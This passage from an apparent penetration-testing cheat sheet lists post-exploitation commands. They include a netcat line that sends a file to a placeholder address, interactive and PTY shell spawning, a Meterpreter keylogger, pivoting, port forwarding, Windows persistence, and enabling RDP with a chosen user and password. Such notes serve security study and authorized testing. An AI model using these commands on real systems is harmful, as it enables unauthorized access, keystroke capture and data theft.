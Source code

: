 4 > test.txt
    nc -nv <ip> <port> < test.txt
    ```

#### Interactive Shell
- Linux:
    ```sh
    /bin/bash -i
    ```

#### Fully Interactive Shell
- Python:
    ```sh
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    ```

### Keylogger
- Metasploit:
    ```sh
    keyscan_start
    keyscan_dump
    ```

### Pivoting
- Metasploit (in meterpreter):
    ```sh
    run autoroute -s <subnet>
    run autoroute -p
    ```

### Port Forwarding
- Metasploit:
    ```sh
    portfwd add -l 1234 -p 80 -r <target_sys_2_ip>
    portfwd list
    nmap -sV -sC -p 1234 localhost
    ```

## Windows Post-Exploitation

### Persistence
- Metasploit:
    ```sh
    search persistence module (Windows)
    ```
- Enable RDP:
    ```sh
    run getgui -e -u user_you_want -p password_you_want
    ```
